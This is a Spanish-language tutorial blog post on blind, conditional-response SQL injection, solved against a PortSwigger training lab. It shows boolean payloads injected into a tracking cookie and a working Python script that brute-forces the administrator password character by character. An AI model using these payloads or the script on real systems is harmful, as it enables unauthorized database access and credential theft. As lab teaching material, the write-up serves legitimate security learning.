 ```yaml
---
title: Blind SQL Injection - Conditional Response
date: '2023-04-24'
tags: ['HACKING', 'SQL', 'SQL INJECTION', 'PYTHON', 'WEB']
draft: false
summary: Aplicando una inyección seremos capaces de hacerle preguntas de respuesta binaria a la base de datos, preguntas que tengan como respuesta un “Sí” o un “No”. Si somos capaces de hacer las preguntas correctas seremos capaces de extraer información de la base de datos aplicando fuerza bruta.
images: ['/static/images/sqli-conditional-response/blind-sqli-conditional-twitter-card.png']
---
```


![Query param](/static/images/sqli-conditional-response/blind-sqli-conditional-twitter-card.png)

## Tabla de contenidos
1. [Introducción](#introduccion)
2. [Concepto del ataque](#concepto)
3. [Explotado la vulnerabilidad en el laboratorio](#explotando)  
    3.1 [Automatización del ataque](#automatizando)  

<a name="introduccion"/>
## Introducción

En este articulo veremos como explotar un SQL Injection (SQLi) a ciegas, el hecho de que sea a ciegas significa que no podremos visualizar directamente datos en la página web, como sí lo hacíamos con el SQLi UNION Attack. Hay varios tipos de inyecciones a ciegas, en este caso, vamos a estar explotando una inyección de respuesta condicional. 

Antes de seguir leyendo, si nunca antes has explotado un SQLi UNION Attack ([https://naker-dev.vercel.app/blog/sql-injection-union-attack](https://naker-dev.vercel.app/blog/sql-injection-union-attack)) te recomiendo que empieces por ahí ya que entenderás mejor las inyecciones a ciegas.

Para hacer más visual el articulo usaremos uno de los laboratorios de PortSwigger ([https://portswigger.net/](https://portswigger.net/)) concretamente el laboratorio **[Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses).**

<a name="concepto"/>
## Concepto del ataque

En muchas ocasiones la inyección SQL no reflejará los datos de la BD en la página web, ni tampoco romperá la ejecución de la web (un error 500), simplemente la aplicación se comportará de forma diferente en función de si la consulta que inyectemos se resuelve como verdadera o como falsa. De ahí el nombre de inyección de respuesta condicional. 

Aplicando una inyección seremos capaces de hacerle preguntas de respuesta binaria a la base de datos, preguntas que tengan como respuesta un “Sí” o un “No”. Si somos capaces de hacer las preguntas correctas seremos capaces de extraer información de la base de datos aplicando fuerza bruta.

Como ejemplo ilustrativo, podríamos preguntarle a la BD: *¿La contraseña del usuario ‘administrator’ empieza por la letra ‘a’?* En caso de que la respuesta sea afirmativa ya sabríamos la primera letra de la contraseña, de forma iterativa podríamos seguir preguntando por el resto de posiciones hasta finalmente obtener la contraseña completa.

La forma en la que veremos la respuesta de la BD (si la respuesta es “Sí” o “No”) pueden ser varías: 

- Renderizar o no un texto en la web
- Renderizar o no una sección entera (la cabecera, el píe de la web, el menú de usuario, etc)
- Cargar o no una cookie
- Guardar o no una clave en el *localStorage/sessionStorage*
- …

La forma de poder determinar si la respuesta a la inyección es un “Sí” o un “No” pueden ser varías y a cada caso diferente, deberemos indagar manualmente para poder determinar que comportamiento de la web nos dará la respuesta de la inyección. En el ejemplo que explotaremos posteriormente quedará más claro este concepto.

<a name="explotando"/>
## Explotado la vulnerabilidad en el laboratorio

Previa explotación, debemos saber que el laboratorio nos da la estructura de las tablas de la BD para no tener que sacarlas por fuerza bruta. Sabemos que existe una tabla llamada `Users` que contiene un usuario llamado `adminitrator`. Toda está información podríamos extraerla nosotros mismos pero nos llevaría bastante tiempo.

La inyección en este caso la haremos sobre un campo de la *cookie.* El campo *trackingId* es vulnerable a SQLi. 

Si nos fijamos en la web veremos un texto: “Welcome back!”:

![Query param](/static/images/sqli-conditional-response/1.png)

Si inyectamos una consulta que se resuelva como verdadera, como por ejemplo:

`n2fI6yGTKRibLzj8' AND 1=1 -- -`

![Query param](/static/images/sqli-conditional-response/2.png)

El texto “Welcome back!” sigue siendo visible:

En caso de inyectar una consulta que se resuelva como falsa dejaremos de ver el texto:

`n2fI6yGTKRibLzj8' AND 1=2 -- -`

![Query param](/static/images/sqli-conditional-response/3.png)

¡Hemos encontrado una forma de interpretar las respuestas “Sí”/“No” por parte de nuestra BD!

Teniendo en cuenta que el objetivo del laboratorio es extraer la contraseña del usuario `administrator` podemos generar un *payload* para inyección SQL que le pregunte a la BD algo como *¿La contraseña del usuario ‘administrator’ empieza por la letra ‘a’?*

La sentencia SQL a inyectar quedaría algo así:

`n2fI6yGTKRibLzj8' AND (SELECT substring(password, 1, 1) FROM users WHERE username LIKE 'administrator') = 'a' -- -`

En caso de que la respuesta se resuelva como afirmativa veremos el texto “Welcome back!” en la pantalla, de lo contrario no lo veremos. De esta forma somos capaces de terminar de qué caracteres se compone la contraseña, iterando por cada posición del campo. 

**Hay que tener en cuenta que estamos haciendo las pruebas sobre una BD PostgreSQL, por eso usamos la función `substring` para extraer un carácter de una posición concreta del campo. En caso de ser otro motor de BD habría que adaptar esta parte de la consulta.**

<a name="automatizando"/>
### Automatización del ataque

Sería una locura intentar sacar por fuerza bruta todos los caracteres de la contraseña de forma manual por lo que haremos un pequeño script que automatice el ataque e itere sobre todos las posiciones de la contraseña probando diferentes caracteres que definiremos en un diccionario.

El script en este caso lo he hecho en Python:

```python
import requests
import string

dictionary = string.ascii_lowercase + string.digits #[a-z0-9] 
url = "https://0a4400f7035bc8938449ae2700620002.web-security-academy.net/filter?category=Gifts"
trackingId = "UXenCJxCQPYRW0EV"
session = "BHLKJiOKcd68WYjIyaXpzlTPMNdTPnnh"

def bruteForce(password_index):
	for char in dictionary:
		cookies = {
			"TrackingId": f"{trackingId}' AND (SELECT substring(password, {password_index}, 1) FROM users WHERE username LIKE 'administrator') = '{char}' -- -",
			"session": f"{session}"
		}
		r = requests.get(url=url, cookies=cookies)
		body = r.text
		if "Welcome back!" in body:
			return char
	return -1

def main():
	is_running=True
	password=""
	password_index = 1
	while(is_running):
		discovered_char = bruteForce(password_index)
		if(discovered_char == -1):
			is_running=False
			break
		password = password + discovered_char
		password_index = password_index + 1
		print(password)

if __name__ == "__main__":
	main()
```

En este caso usamos un diccionario que contiene letras minúsculas de las a a la z y números del 0 al 9. Habría que adaptar el diccionario según el caso concreto.

El resultado del script vendría a ser algo similar a esto:

![Query param](/static/images/sqli-conditional-response/4.png)

La contraseña debería ser el último output del script `rqjydfesdyw9t5v07n2l`. Cabe destacar que el script se podría limpiar y mejorar para que no arroje tanta información incompleta pero para el caso nos vale de sobra.

¡Solved!

![Query param](/static/images/sqli-conditional-response/5.png)

Gracias por leer.